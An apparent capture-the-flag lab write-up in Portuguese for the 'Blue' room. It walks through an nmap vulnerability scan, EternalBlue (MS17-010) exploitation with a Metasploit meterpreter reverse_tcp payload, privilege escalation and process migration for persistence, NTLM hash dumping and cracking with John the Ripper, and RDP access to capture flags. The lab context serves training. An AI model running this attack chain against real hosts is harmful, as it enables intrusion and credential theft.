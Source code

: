 ROOM BLUE

Executado o scan para enumeração de portas, serviços e vulnerabilidade:
nmap -vv -sV --script vuln -Pn 10.10.223.98

Portas:
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   syn-ack ttl 127
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC

Vulnerabilidades:
MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
MS17-010 Remote Code Execution vulnerability in Microsoft SMBv1 servers


Validado que a versão do Windows:
auxiliary/scanner/smb/smb_ms17_010
VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)


Para obtenção de acesso usei o exploit "ms17-010 Eternalblue".
exploit/windows/smb/ms17_010_eternalblue
payload/windows/x64/meterpreter/reverse_tcp

Obtido o acesso com sucesso, o próximo passo é fazer a escalação de privilégios e para isso usei o módulo
post/multi/manage/shell_to_meterpreter


Validado que a exploração até o momento foi efetuado com sucesso.
O usuário é o SYSTEM que tem privilégios de administrador.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM


Com o comando PS capturei o PID do TrustedInstaller.exe (3048).
Efetuado a migração do processo de invasão par dentro do processo do TrustedInstaller.exe (3048), com sucesso.
Módulo de persistência.
meterpreter > migrate 3048
[*] Migrating from 1680 to 3048...
[*] Migration completed successfully.


Capturado a hash de senhas dos usuários.
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


Executado o john the ripper para quebrar a senha do usuário john e encontramos a senha do mesmo.
john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt

alqfna22         (Jon)


O próximo passo foi acessar o servidor via RDP e capturar as flags.
rdp <ip do alvo>

Flag1: C:\
Flag2: C:\Windows\System32\Config
Flag3: C:\Users\Jon\MyDocuments


